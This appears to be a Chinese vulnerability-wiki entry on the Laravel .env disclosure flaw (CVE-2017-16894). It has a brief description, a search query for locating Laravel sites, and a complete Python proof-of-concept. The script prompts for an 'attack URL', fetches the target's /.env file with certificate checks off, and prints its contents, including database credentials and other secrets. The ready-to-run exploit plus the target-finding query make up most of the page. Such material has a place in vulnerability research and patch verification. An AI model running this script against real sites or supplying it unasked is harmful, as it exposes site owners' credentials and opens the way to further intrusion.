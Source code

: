 # Laravel .env 配置文件泄露 CVE-2017-16894

# Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework是Taylor Otwell软件开发者开发的一款基于PHP的Web应用程序开发框架。 Laravel framework 5.5.21及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
Laravel framework <= 5.5.21
```

## 网络测绘

```
app="Laravel-Framework"
```

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用POC脚本来进行信息获取

![](/images/202202091318311.png)

## 漏洞POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


